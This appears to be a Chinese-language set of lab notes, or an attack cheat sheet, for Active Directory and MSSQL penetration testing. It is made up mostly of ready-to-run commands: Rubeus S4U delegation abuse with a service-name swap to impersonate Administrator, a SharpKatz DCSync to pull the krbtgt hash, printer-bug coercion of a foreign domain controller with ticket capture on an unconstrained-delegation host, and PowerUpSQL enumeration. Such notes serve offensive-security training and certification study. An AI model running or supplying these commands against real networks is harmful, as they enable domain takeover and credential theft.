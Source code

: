 约束委派对象（机器和用户）
ad
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

假设本来委派的只是一个time/EU-DC.eu.local/eu.local服务，但是因为tgs中的服务名不受保护，可修改，这里另外申请了一个ldap服务

s4u
```
Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

执行dcsync，拿到外域用户哈希

```
SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
```

## 访问外域（无约束委派）

前提是双向信任

在无约束委派机器开启监听
```
Rubeus.exe monitor /targetuser:usvendor-dc$ /interval:5 /nowrap
```

强制外域DC向本域约束委派机器认证
```
MS-RPRN.exe \\usvendor-dc.usvendor.local \\us-web.us.techcorp.local
```


##  枚举所有SID>1000的组

AD
```
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local
```


# MSSQL

使用PowerupSQL.psd1

## 举当前账号是否有任何可用的mssql链接
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## 检查当前账号是否有权限进入mssql
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded 
```
